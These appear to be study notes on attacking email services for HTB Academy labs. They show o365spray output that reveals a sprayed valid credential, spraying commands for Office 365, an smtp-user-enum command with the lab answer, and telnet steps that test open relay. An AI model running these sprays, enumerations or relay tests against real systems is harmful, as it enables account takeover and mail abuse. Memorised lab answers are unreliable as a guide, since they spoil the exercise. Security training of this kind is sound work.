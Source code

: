 ```bash
[2022-04-14 12:26:32,202] INFO : Running password spray against 2 users.
[2022-04-14 12:26:32,202] INFO : Password spraying the following passwords: ['March2022!']
[2022-04-14 12:26:33,025] INFO : [VALID] lewen@msplaintext.xyz:March2022!
[2022-04-14 12:26:33,048] INFO : 

[ * ] Writing valid credentials to: '/opt/o365spray/spray/spray_valid_credentials.2204141226.txt'
[ * ] All sprayed credentials can be found at: '/opt/o365spray/spray/spray_tested_credentials.2204141226.txt'

[2022-04-14 12:26:33,048] INFO : Valid Credentials: 1
```

### Cloud-Specific Tools
```bash
# Office 365
o365spray --spray -U users.txt -p 'Password123!' --domain target.com

# Gmail/Google Workspace
# CredKing for Gmail enumeration and spraying

# General cloud considerations:
# - Use service-specific tools when available
# - Traditional tools often blocked by cloud providers
# - Keep tools updated due to frequent API changes
```

---

## 🎯 HTB Academy Lab Scenarios

### Scenario 1: SMTP User Enumeration
```bash
# Task: Find available username for domain inlanefreight.htb
# Target: 10.129.203.12

# Step 1: Download users.list from module resources
# Step 2: Use smtp-user-enum with RCPT method
smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t 10.129.203.12

# Result: marlin@inlanefreight.htb exists
# Answer: marlin
```

### Scenario 2: SMTP Relay Testing
```bash
# Test for mail relay capabilities
telnet target_ip 25

# Test relay with external domains
HELO test.com
MAIL FROM: attacker@external.com
RCPT TO: victim@anotherdomain.com

# Check response codes:
# 250 = Relay allowed
# 550 = Relay denied
```
